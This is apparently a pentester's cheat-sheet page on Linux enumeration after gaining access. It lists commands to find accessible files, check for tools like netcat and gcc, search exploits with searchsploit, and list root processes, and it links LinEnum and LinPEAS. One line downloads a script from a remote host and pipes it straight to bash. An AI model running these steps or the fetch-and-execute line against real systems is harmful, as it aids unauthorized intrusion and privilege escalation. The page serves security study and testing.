 # Enumeration

### Enumeration

find files user has access to:

```bash
find / -user <username> -ls 2>/dev/null
```

`which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null` - Check if each of these useful programs are installed on the machine \(only shows the ones currently installed\). 

[Linux Privilege Checker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

full linux enumeration:

* [LinEnum.sh](https://github.com/rebootuser/LinEnum) 
* [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

download **and** execute script \(such as LinEnum.sh\) \[from remote host\]: `curl <url or IP>/LinEnum.sh | bash`

Locate exploits:

```bash
searchsploit <name_of_program> 

#to pull exploit code:
searchsploit -x <name/number of exploit>
```

enumerate running processes: `pspy (TODO: find github and link it)`

`ps -U root -u root ux` View all processes started by a certain user \(`root` in this case\)

enumeration multi-tool: [Sparta](https://sparta.secforce.com/) \(does nmap, hydra, nikto, sqlscan, ssl...\)

Semi-automated enumeration all-in-one \(use this!\): [nmapAutomator](https://github.com/21y4d/nmapAutomator)

Unix hardening tool that can be used for enumeration: [Bastille](http://bastille-linux.sourceforge.net/)

enumerate info about current processes running from: `/proc/self/status`

